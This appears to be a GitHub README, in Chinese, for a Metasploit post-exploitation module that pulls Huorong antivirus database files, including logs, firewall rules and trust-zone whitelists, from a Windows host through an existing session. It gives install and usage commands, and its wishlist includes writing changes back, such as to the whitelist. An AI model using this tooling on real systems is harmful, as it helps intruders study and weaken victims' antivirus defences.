 # get_huorong_db

| 用途                | 文件名         |
| :------------------ | :------------- |
| 用户配置文件        | config.db      |
| 行为拦截记录和配置  | hips.db        |
| 病毒库              | virdb/*        |
| 联网控制限速        | hrfw.db        |
| IP黑名单,IP协议控制 | ipproto.db     |
| 行为拦截日志        | log.db         |
| 系统修复            | sysrepair.db   |
| 垃圾清理            | db/sysclean.db |
| 系统防护            | user.db        |
| 信任区,爆破攻击防护 | wlfile.db      |
| 文件监控日志        | applog.db      |

一个~~垃圾~~msf模块，师傅们轻点喷

# 安装

## Linux

```bash
wget -O /usr/share/metasploit-framework/modules/post/windows/gather/get_huorong_db.rb https://raw.githubusercontent.com/2096779623/get_huorong_db/main/get_huorong_db.rb
```
* Linux默认保存位置在当前msf启动目录

## Windows

把[get_huorong_db.rb](https://raw.githubusercontent.com/2096779623/get_huorong_db/main/get_huorong_db.rb)丢到你的metasploit安装路径下的`embedded/framework/modules/post/windows/gather`文件夹。

* Windows默认保存位置在`%USERPROFILE%`
# 使用

```bash
use post/windows/gather/get_huorong_db
set FILENAME #要获取的文件名
set DIRECTORY #可选，指定目录，比如db，不需要加/或\
set SESSION #懂得都懂
run
```

# 欢迎PR

* 下载整个目录
* 判断文件/火绒进程是否存在(~~俗称屎山~~)
* sqlite3直接解析输出
* 写入回去（比如白名单）
